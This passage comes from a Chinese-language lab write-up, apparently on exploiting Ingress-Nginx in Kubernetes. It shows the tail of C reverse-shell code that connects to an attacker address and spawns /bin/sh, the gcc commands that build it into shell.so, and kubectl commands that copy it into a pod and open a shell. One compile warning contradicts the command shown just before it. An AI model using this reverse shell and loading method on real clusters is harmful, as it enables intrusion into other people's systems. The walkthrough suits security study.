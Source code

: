 ```
    if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
        exit(0);
    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);
    char *args[] = {"/bin/sh", NULL};
    execve("/bin/sh", args, NULL);
}
```

编译一下

```
yum install openssl-devel
gcc -fPIC -Wall -shared -o shell.so shell.c -lcrypto
```

![image-20250517195245512](images/14.png)

这里编译的时候不要用`gcc -fPIC -Wall -shared -o shell.so shell.c -lcrypto`，不然当nginx命令加载so的时候因为缺少libcrypto.so.10导致失败

上传到pod（实际情况有差异）

```
kubectl cp -n test ./shell.so python-app-587d84957c-bs2p7:/app/
```

进入容器

```
kubectl exec -it python-app-587d84957c-bs2p7 -n test -- /bin/bash
```

![image-20250517195653068](images/15.png)

## 设置Root进入Ingress-Nginx

为了方便后续观察，需要将进入容器的权限提升到root，当前默认为www-data

